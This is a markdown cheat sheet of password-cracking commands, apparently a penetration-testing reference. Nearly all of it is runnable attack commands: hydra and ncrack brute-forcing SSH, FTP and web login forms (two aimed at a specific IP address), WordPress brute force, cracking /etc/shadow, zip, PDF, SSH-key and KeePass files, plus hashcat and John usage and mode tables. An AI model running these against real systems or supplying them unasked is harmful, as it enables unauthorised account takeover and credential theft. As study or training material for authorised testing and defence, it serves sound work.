 # Password cracking
> Credits to the SCSP Community.

### Cracking SSH Password

```bash
hydra -L <username list> -P <password list> 10.10.10.10 ssh
ncrack -U <usernames list> -P <passwords list> ssh://10.10.10.10
```

### Cracking FTP Passwords

```bash
hydra -L <username list> -P <password list> 10.10.10.10 ftp
ncrack -U <usernames list> -P <passwords list> ftp://10.10.10.10
```

### Cracking Passwords when Service uses non-standard port

```bash
hydra -L <username list> -P <password list> -s <port> 10.10.10.10 ssh
ncrack -U <usernames list> -P <passwords list> 10.10.10.10:<port>
```

### Cracking Password Protected PDF files

```bash
pdfcrack -f <pdf file> -w <wordlist>
```

### Cracking Web-Application Password

* In Get Request

```bash
hydra -L <usernames list> -P <passwords list> <target ip> http-get <path to admin panel>
```

* In Post Request

```bash
hydra -L <usernames list> -P <passwords list> <target ip> http-form-post '<post request data, specify parameters with ^USER^ and ^PWD^>'
```

### Crack Wordpress Passwords

```bash
wpscan --url <target ip/wp-login> -U <usernames list> -P <path to wordlist>
```

### Brute force login form

```bash
hydra -L rockyou.txt -p idk -t 20 35.227.24.107 http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"
hydra -l sandy -P rockyou.txt -t 64 35.227.24.107 http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"
```

### Brute force zip file

```bash
fcrackzip -D -p <WORDLIST> -v <ZIP_FILE>
fcrackzip -v -u -D -p <WORDLIST> <ZIP_FILE>
```

```text
zip2john zipfile > ziphash.john
john ziphash.john --wordlist=wordlist.txt
```

### Crack /etc/shadow

```bash
unshadow passwd.txt shadow.txt > passwords.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

### Identifying Hash Types

```bash
hashid <file containing hashes>
hashid -m <file containing hashes>      ### Shows hashcat mode
hashid -j <file containing hashes>      ### Shows john format
```

### Converting encrypted files into a format supported by John

```bash
unshadow etc_passwd_file etc_shadow_file | tee unshadowed_file

ssh2john.py encrypted_SSH_key_file | tee SSH_key.john

keepass2john kdb_file | tee keepass_hash.john

rar2john encrypted_rar_file | tee rar_file_hash.john

7z2john encrypted_7z_file | tee 7z_file_hash.john
```

### Cracking Hashes using John the Ripper

```bash
john --list=formats     ### outputs all supported formats
john <hash file> --wordlist=<path to wordlist>
john <hash file> --show (shows cracked hashes)
john <hash file> --wordlist=<path to wordlist> --format=<hash format>
john <hash file> --incremental      ### uses ASCII incremental mode
john <hash file> --incremental=digits       # uses digit incremental (mode: 0 to 99999999999999999999)
```

### Cracking Hashes using HashCat

```bash
hashcat -m <hash type mode> -a <attack mode> <hash file> <path to wordlist>
```

### HashCat Attack Modes \(-a\)

| mode | attack      |
|:---- |:----------- |
| 0    | Straight    |
| 1    | Combination |
| 3    | Brute-force |

### HashCat Hash Types \(-m\)

* Linux OS hashes

| type | hash             |
|:---- |:---------------- |
| 500  | MD5 \($1$\)      | 
| 3200 | Blowfish \($2$\) |
| 7400 | SHA256 \($5$\)   |
| 1800 | SHA512 \($6$\)   |

* Windows OS hashes

| type | hash |
|:---- |:---- |
| 1000 | NTLM |
| 3000 | LM   |

* MacOS hashes

| type | hash                  |
|:---- |:--------------------- |
| 122  | MacOS v10.4,10.5,10.6 |
| 1722 | MacOS v10.7           |
| 7100 | MacOS v10.8+          |

* Application hashes

| type  | hash     |
|:----- |:-------- |
| 900   | MD4      |
| 0     | MD5      |
| 100   | SHA1     |
| 1400  | SHA2-256 |
| 1700  | SHA2-512 |
| 17400 | SHA3-256 |
| 17600 | SHA3-512 |

* Network Protocol Hashes

| type  | hash                    |
|:----- |:----------------------- |
| 7500  | Kerberos 5              |
| 10200 | CRAM-MD5                |
| 11100 | PostgreSQL CRAM \(MD5\) |
| 11200 | MySQL CRAM \(SHA1\)     |
| 16500 | JSON Web Token          |

* Salted Hashes

| type | hash                   |
|:---- |:---------------------- |
| 10   | MD5 \(\$pass.\$salt\)    |
| 20   | MD5 \(\$salt.\$pass\)    |
| 110  | SHA1 \(\$pass.\$salt\)   |
| 1410 | SHA256 \(\$pass.\$salt\) |
| 1420 | SHA256 \(\$salt.\$pass\) |
| 1710 | SHA512 \(\$pass.\$salt\) |
| 1720 | SHA512 \(\$salt.\$pass\) |